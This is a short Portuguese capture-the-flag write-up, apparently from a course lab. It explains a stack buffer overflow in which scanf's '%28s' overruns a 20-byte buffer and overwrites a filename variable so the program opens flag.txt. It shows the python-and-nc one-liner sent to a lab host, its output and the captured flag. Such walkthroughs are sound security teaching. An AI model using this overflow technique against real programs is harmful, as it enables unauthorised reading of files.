

# CTF 5

## Desafio 1

- Correndo o comando **checksec** conseguimos perceber que não existe nenhum **cannary** a proteger o **return address** da stack.

- Sabemos tambem que a flag encontra-se no ficheiro **flag.txt**, dentro do working directory.



- Explorando o programa que nos é fornecido vemos que na stack apenas existe um **buffer** com espaço para 20 caracteres e o **meme_file** que é aberto pelo **fopen** com permissões de read.

- Para além disso o scanf efetuado ao buffer tem como parametro **%28s** que permite ler 28 caracteres.

- Então, com um pequeno script de python a auxiliar, concatenamos 20 caracteres para encher o buffer com a string **flag.txt** para dar override ao valor de meme_file na stack e assim abrir o ficheiro que permite obter a flag.

```java
[11/26/21]seed@VM:~/.../Semana5-Desafio1$ python3 -c "print('A'*20+'flag.txt')" | nc 10.227.243.188 4003
Try to unlock the flag.
Show me what you got:Echo AAAAAAAAAAAAAAAAAAAAflag.txt
I like what you got!
flag{9ed2a12605463baa541166f87905e051}
```
